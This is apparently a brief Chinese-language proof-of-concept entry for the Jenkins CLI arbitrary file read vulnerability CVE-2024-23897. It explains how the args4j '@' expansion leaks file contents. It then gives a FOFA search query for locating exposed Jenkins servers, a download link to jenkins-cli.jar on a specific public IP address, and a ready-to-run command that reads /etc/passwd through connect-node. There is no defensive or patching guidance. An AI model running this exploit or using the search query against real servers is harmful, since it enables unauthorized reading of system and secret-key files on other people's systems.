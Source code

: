 ## Jenkins任意文件读取漏洞(CVE-2024-23897)

Jenkins CLI 是 Jenkins 内置的命令行页面。

Jenkins 受影响版本中使用 args4j 库解析CLI命令参数，该库默认将参数中 @ 字符后的文件路径替换为文件内容，攻击者可利用该特性使用 Jenkins 控制器进程的默认字符编码读取 Jenkins 控制器文件系统上的任意文件(如加密密钥的二进制文件)


## fofa
```
app="Jenkins"
```

## 根据社区公布的poc：
```
https://twitter.com/shoucccc/status/1750601321831633026
```

此漏洞需要使用到jenkins-cli.jar。读者可以从任意Jenkins网页地址下载： http://129.146.32.86:8080/jnlpJars/jenkins-cli.jar

```
java -jar jenkins-cli.jar -s http://:8080/ connect-node "@/etc/passwd"
```
![image](https://github.com/wy876/POC/assets/139549762/bba2e17e-472a-4694-b877-c54c3be42a55)
